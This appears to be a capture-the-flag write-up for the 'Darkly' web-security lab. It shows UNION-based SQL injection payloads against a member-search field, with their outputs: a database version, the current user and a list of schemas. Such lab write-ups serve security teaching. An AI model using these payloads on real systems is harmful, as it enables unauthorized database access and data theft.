 # Darkly

## Sql Injection

### Flag

### How to find it

- On the Members section, there is a field in order to search for a member giving the id. This fields is directly vulnerable to a sql injection. We can try a UNION Based sql insection in order to get information about the webserver, for example if we type: 

`1 union select 1,version()`
    
    We can get information about the host: 
    
    `5.5.64-MariaDB-1ubuntu0.14.04.1`
    If we want information about the database that it is using we should type:
    
    `1 union select database(),user()` 
    
    Output:
    `Member_Sql_Injection`
    
    Knowing that this field is vulnerable to sql injection we can get all the databases inside this webserver using: 
    
    `1 union select schema_name, 2 from information_schema.schemata`
    
    This will give us:
    
    - information_schema
    - Member_Brute_Force
    - Member_Sql_Injection
    - Member_guestbook
    - Member_images
    - Member_survey